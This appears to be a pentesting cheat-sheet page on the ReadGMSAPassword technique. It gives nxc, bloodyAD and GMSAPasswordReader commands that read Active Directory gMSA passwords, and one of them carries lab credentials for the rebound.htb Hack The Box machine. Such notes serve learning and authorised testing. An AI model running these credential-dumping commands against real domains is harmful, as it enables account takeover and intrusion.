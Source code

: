 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ReadGMSAPassword

## Linux

{% tabs %}
{% tab title="NXC" %}
```bash
nxc ldap <FQDN> -u <user> -p <pass> -k --gmsa
```
{% endtab %}

{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
bloodyAD -d rebound.htb -u tbrady -p 543BOMBOMBUNmanda --host dc01.rebound.htb get object 'delegator$' --attr msDS-ManagedPassword
```
{% endcode %}
{% endtab %}
{% endtabs %}

For an example using NXC check [Rebound](../../../../boxes/boxes/insane/rebound.md#gmsa).

## Windows

{% tabs %}
{% tab title="GMSAPasswordReader" %}
{% code overflow="wrap" %}
```powershell
.\GMSAPasswordReader.exe --accountname delegator$
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="gMSADumper" %}
{% embed url="https://github.com/micahvandeusen/gMSADumper" %}
{% endtab %}

{% tab title="GMSAPasswordReader" %}
{% embed url="https://github.com/rvazarkar/GMSAPasswordReader" %}
{% endtab %}
{% endtabs %}
